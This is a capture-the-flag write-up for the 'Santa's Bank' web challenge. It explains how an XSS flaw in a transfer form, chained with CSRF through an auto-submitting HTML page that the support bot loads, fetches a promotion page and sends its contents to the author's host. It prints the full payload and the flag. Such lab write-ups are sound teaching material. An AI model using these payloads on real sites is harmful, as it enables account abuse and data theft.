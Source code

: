 # 14 - Santa's Bank

## Description

Level: Medium<br/>
Author: nichtseb

Santa has lost faith and trust in humanity and decided to take matters in his own hands: He opens a new bank.

He announced the release with the following message:

> For Christmas, our bank has a generous offer: save 100 € in your savings account and get a promo code!

Due to mistrust, he didn't connect his bank and its employees to the internet.

Can you hack bank?

## Solution

For this challenge we are given a web service. We can create a new account which has 0$. We need to obtain 100$ to buy
the flag and there's two main functionalities.

1. We can send money from one account to the other
2. We can send an URL to the support team which they then request (via a GET)

After experimenting for a while, I found an XSS vulnerabilitiy in the transfer function:

```
from=BA2A2625CAE55DEAD16D
to=<script>alert(123)</script>
amount=123
```

This triggers an alert in the browser. If we can get the admin to send this post request, we can get a balance of 100$.
To do this, however, we first need to find the account number of them. This could be achieved in a two-step exploit.
Instead, we can directly access the `/promotion` endpoint using the support account to obtain the flag:

```html
<form id="form" action="https://6083986c-e853-43b3-b7cf-e5e6d211c558.idocker.vuln.land//transfer" method="POST">
<input name="from" value="test" />
<input name="to" value="<script>fetch('/promotion').then(r => r.text()).then(t => location.href='http://10.13.0.0/' + t);</script>"/>
<input name="amount" value="1" />
<input type="submit" />
</form>
```

First, the admin requests my website which serves the above HTML. Then, it automatically submits the form which contains
the XSS vulnerability to run code under the same domain. This bypasses the CORS policy and fetches the flag directly.
It then sends the found flag diretly back to me. And just like that we get `HV22{XSS_XSRF_TOO_MANYS_XS}`.
